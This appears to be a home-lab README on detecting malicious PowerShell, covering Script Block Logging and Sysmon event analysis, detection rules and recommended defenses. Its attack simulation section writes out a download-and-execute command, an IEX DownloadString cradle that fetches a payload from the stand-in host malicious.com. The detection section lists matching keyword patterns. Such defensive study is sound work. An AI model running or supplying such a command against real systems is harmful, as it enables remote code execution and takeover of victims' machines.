

# 🚨 Suspicious PowerShell Activity Detection

## 📌 Scenario

Simulated execution of a malicious PowerShell command after initial access.

The attacker attempts to download and execute a remote script using PowerShell.

---

## ⚔️ Attack Simulation

* Tool: PowerShell
* Technique: Remote script execution

**Command used:**
powershell -Command "IEX(New-Object Net.WebClient).DownloadString('http://malicious.com/payload.ps1')"

---

## 📊 Logs Analysis

### PowerShell Script Execution (Event ID 4104)

PowerShell Script Block Logging captured the executed command.

Key indicators:

* Use of `IEX` (Invoke-Expression)
* Use of `DownloadString` to fetch remote content
* External URL reference
* Potential execution of remote code

---

### Process Execution (Sysmon Event ID 1)

Sysmon logs show PowerShell process creation with full command line.

Key indicators:

* Execution of `powershell.exe`
* Suspicious command line arguments
* Use of remote script download technique
* Visibility of full attack chain in command line

---

## 🧠 Detection Logic

Suspicious PowerShell activity is identified when:

* Event ID 4104 contains `IEX` or `DownloadString`
* Command includes external URL
* PowerShell executes encoded or remote content
* Sysmon Event ID 1 shows suspicious command line execution

---

## 🔍 Investigation Findings

* User: labuser
* Process: powershell.exe
* Technique: remote script execution via PowerShell
* Indicators:
  * IEX usage
  * External URL (payload download)
* Outcome: potentially malicious script execution attempt

---

## 🚨 Conclusion

Detected suspicious PowerShell activity indicating possible execution of remote malicious code.

---

## 🛡️ Recommended Actions

* Block suspicious domains / URLs
* Restrict PowerShell usage (e.g. Constrained Language Mode)
* Enable advanced logging (Script Block Logging, Sysmon)
* Monitor PowerShell activity for anomalies
* Apply endpoint protection and EDR rules

---

## 📸 Evidence

The screenshots below present evidence of the PowerShell attack and its detection.

### PowerShell Attack Execution

---

### PowerShell Script Block (Event ID 4104)

---

### Sysmon Process Creation (Event ID 1)

